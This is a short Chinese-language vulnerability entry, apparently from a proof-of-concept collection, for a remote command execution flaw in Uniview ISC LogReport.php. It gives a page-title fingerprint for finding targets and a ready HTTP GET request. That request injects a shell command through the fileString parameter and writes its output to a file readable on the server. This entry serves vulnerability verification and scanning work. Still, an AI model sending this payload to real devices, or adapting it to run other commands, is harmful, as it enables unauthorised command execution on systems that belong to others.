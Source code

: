 ﻿# 浙江宇视科技 ISC LogReport.php 远程命令执行漏洞

> 更新时间：2024-01-15

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：title=="ISC5000-E"

> 验证脚本：HTTP

```
GET /Interface/LogReport/LogReport.php?action=execUpdate&fileString=x%3bid%3edudesuite.txt HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：/Interface/LogReport/dudesuite.txt


> 验证文件来源：浙江宇视科技 ISC LogReport.php 远程命令执行漏洞.poc
